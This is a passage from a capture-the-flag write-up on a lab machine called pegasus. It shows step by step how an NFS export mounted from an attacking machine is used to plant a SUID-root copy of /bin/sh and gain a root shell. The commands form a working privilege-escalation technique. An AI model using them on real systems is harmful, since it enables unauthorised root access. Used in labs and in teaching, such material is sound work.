 I went ahead and exected /usr/local/sbin/nfs to see what it did. 

```
john@pegasus:~$ sudo /usr/local/sbin/nfs
Usage: nfs [start|stop]
john@pegasus:~$ sudo /usr/local/sbin/nfs start
 * Exporting directories for NFS kernel daemon...                                                                       [ OK ] 
 * Starting NFS kernel daemon                                                                                           [ OK ] 
john@pegasus:~$
```

It seemed like it was simply starting up the NFS daemon. A quick check showed that nfsd was running and TCP port 2049 was now open. On my attacking machine, I checked for any mountable filesystems on the target: 

```
# showmount -e 192.168.180.130
Export list for 192.168.180.130:
/opt/nfs *
```

/opt/nfs was available. I went ahead and mounted it to /mnt/pegasus

```
# mkdir /mnt/pegasus
# mount -t nfs -o nolock 192.168.180.130:/opt/nfs /mnt/pegasus/
```

What I discovered was that any file I created in /mnt/pegasus on my machine, would be created on the target's /opt/nfs directory with root permissions. So I simply copied over /bin/sh and set it to SUID root permissions in /mnt/pegasus: 

```
# cp /bin/sh /mnt/pegasus
# chmod 4755 /mnt/pegasus/sh
```

A quick check on the target showed the /opt/nfs/sh was SUID root: 

```
john@pegasus:~$ ls -l /opt/nfs
total 96
-rwsr-xr-x 1 root root 97284 Dec 20 19:14 sh
-rw-r--r-- 1 root root     0 Dec 20 19:12 testing
```

All that was left was to execute /opt/nfs/sh: 

```
john@pegasus:~$ whoami
john
john@pegasus:~$ /opt/nfs/sh
# whoami
root
```

Victory! This challenge comes with a flag in /root, so I had a look at it:
